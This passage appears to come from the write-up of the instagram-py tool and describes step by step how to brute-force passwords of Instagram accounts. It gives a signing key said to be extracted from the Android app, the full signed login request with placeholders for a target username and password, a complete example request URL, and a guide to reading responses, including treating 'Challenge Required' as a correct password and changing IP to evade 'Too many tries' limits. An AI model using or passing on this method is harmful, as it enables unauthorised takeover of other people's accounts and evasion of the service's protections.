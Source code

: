 https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/cookies.png
Step 2: Build a post request with Instagram's signature.

This part is simple but may be difficult to setup , first i need to get instagram's signature which is only present in their free apk from google play , Remember our Strength can be our Weakness , All i have to do reverse engineer the apk and find the signature, lets call it ig_sig.

ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
ig_version = 4
Instagram uses HMAC Authentication for login stuff, so lets use python's hmac library. But first we have to build our body which will be encoded in json for it to actually sign with ig_sig , So the post body looks likes this...

phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
_csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
username   = <TARGET ACCOUNT>
guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
device_id  = android-<RANDOM 16 CHARACTER STRING>
password   = <PASSWORD TO TRY>
login_attempt_count = 0
The above will be encoded to JSON , So to test the password we have to post the data to this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA> .

<SIGNED BODY>: using HMAC , sign our json encoded data with ig_sig and return a hexa value.

<URL ENCODED JSON DATA>: the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as USERNAME and password with PASSWORD we simply request this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D

Take a look how I did it...

https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png

Step 3: With the json response and response code , we determine the password is correct or wrong.

if We get response 200 then the login is success but if we get response 400 , We inspect the json data for clues if it is the correct password or invalid request or too many tries. So we inspect the message from instagram json response!

Message = Challenge Required , then the password is correct but instagram got some questions so we must wait until the user logs in and answer the question and if we are lucky they will not change the password and we could login in later(Most of the time people won't change the password!)

Message = The password you entered is incorrect. , then the password is incorrect for sure , try another.

Message as something like word invalid in it then , some other error so just try again, can happen because of wordlist encoding error which i ignored because all the worldlist have encoding error!

Message = Too many tries , Time to change our ip and loop but we don't want to change our magic cookie
